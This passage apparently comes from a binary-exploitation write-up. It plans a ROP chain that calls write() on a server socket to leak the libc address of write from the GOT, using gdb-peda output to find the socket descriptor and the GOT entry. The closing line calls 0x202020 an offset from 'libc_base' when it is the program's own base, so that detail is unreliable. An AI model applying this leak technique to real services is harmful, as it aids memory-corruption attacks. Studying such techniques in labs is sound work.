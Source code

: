 So let's try that, we'll create a ROP chain to call something like: `write(int socket_fd, (void*) buffer_addr, ssize_t length)`. The `socket_fd` can be figured out by looking at our own process's file descriptors:

```
=> 0x555555554bad <check_username+62>:	call   0x555555554910 <write@plt>
   0x555555554bb2 <check_username+67>:	lea    rcx,[rbp-0x410]
   0x555555554bb9 <check_username+74>:	mov    eax,DWORD PTR [rbp-0x424]
   0x555555554bbf <check_username+80>:	mov    edx,0x420
   0x555555554bc4 <check_username+85>:	mov    rsi,rcx
Guessed arguments:
arg[0]: 0x4   <---- file_descriptor
arg[1]: 0x555555554f94 ("Username: ")
arg[2]: 0xa ('\n')
```

The same fd can be seen when the process is using `read`:

```
=> 0x555555554bc9 <check_username+90>:	call   0x555555554970 <read@plt>
   0x555555554bce <check_username+95>:	mov    DWORD PTR [rbp-0x414],eax
   0x555555554bd4 <check_username+101>:	mov    DWORD PTR [rbp-0x418],0x0
   0x555555554bde <check_username+111>:	jmp    0x555555554c0b <check_username+156>
   0x555555554be0 <check_username+113>:	mov    eax,DWORD PTR [rbp-0x418]
Guessed arguments:
arg[0]: 0x4 
arg[1]: 0x7fffffffe110 --> 0x7ffff7ffe4c8 --> 0x7ffff7ffe428 --> 0x7ffff7ff1510 --> 0x7ffff7ffe170 --> 0x555555554000 (--> ...)
arg[2]: 0x420 
```

The address we want to leak is some entry in the GOT table. Specifically we'll use `write@plt` to get the GOT entry of `write` so we can learn the address of that function in libc after the linker placed it there.

```
gdb-peda$ x/3i 0x555555554910
   0x555555554910 <write@plt>:	jmp    QWORD PTR [rip+0x20170a]        # 0x555555756020
   0x555555554916 <write@plt+6>:	push   0x1
   0x55555555491b <write@plt+11>:	jmp    0x5555555548f0
gdb-peda$ x/gx 0x555555756020
0x555555756020:	0x00007ffff7af4140
gdb-peda$ disas 0x00007ffff7af4140
Dump of assembler code for function __GI___libc_write:
   0x00007ffff7af4140 <+0>:	lea    rax,[rip+0x2e07b1]        # 0x7ffff7dd48f8 <__libc_multiple_threads>
   0x00007ffff7af4147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af4149 <+9>:	test   eax,eax
   0x00007ffff7af414b <+11>:	jne    0x7ffff7af4160 <__GI___libc_write+32>
   0x00007ffff7af414d <+13>:	mov    eax,0x1
   0x00007ffff7af4152 <+18>:	syscall 
```

The address we're after is `0x555555756020` which contains the address of `write` at libc.
The address we want to leak is `0x555555756020 - libc_base = 0x202020` bytes from the start of `libc_base` *which we have already learned*. 
